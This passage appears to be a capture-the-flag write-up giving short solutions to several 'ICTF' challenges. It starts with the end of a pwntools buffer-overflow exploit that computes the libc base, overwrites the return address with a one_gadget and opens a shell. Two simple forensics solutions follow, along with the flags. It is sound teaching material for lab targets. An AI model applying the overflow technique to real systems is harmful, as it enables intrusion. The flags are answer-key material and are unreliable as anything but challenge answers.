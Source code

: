 ```
libc=(u64(leak))-0x7f38631d3b97+0x00007f38631b2000
oneshot=libc+0x4f322
p.sendline('1')
p.sendline('%d'%0x50)
p.send('a'*0x48+p64(oneshot))
p.interactive()
```

```
ICTF{check_buffer_size_is_so_important}
```

## Kakaotalk

keyword: extension, file

```shell
jjy@jjy-VirtualBox:~/lab$ file 9cdfa94ea9cbac9277e0d55a30d7bf6a39825140811fc88c824cfe5e7c8cff68

9cdfa94ea9cbac9277e0d55a30d7bf6a39825140811fc88c824cfe5e7c8cff68: PNG image data, 994 x 360, 8-bit/color RGBA, non-interlaced

```

change file extension to '.png'

```
ICTF{FILE_IS_AWESOME_COMMAND}
```

## trace

keyword: packet, html

Open the packet with a wire shark. Then fillter with http protocol.

```html
<!doctype html>
<html lang="ko">
	<head>
	<meta charset="utf-8">
		<title>This is top secret</title>
	</head>
	<body>
		<img src="http://icewall-ctf.kr/secret.png" alt="top_secret">
	</body>
</html>
```

If you connect to http://icewall-ctf.kr/secret.png, you can get the flag.

```
ICTF{YOU_ARE_GOD_OF_FORENSIC}
```

## login
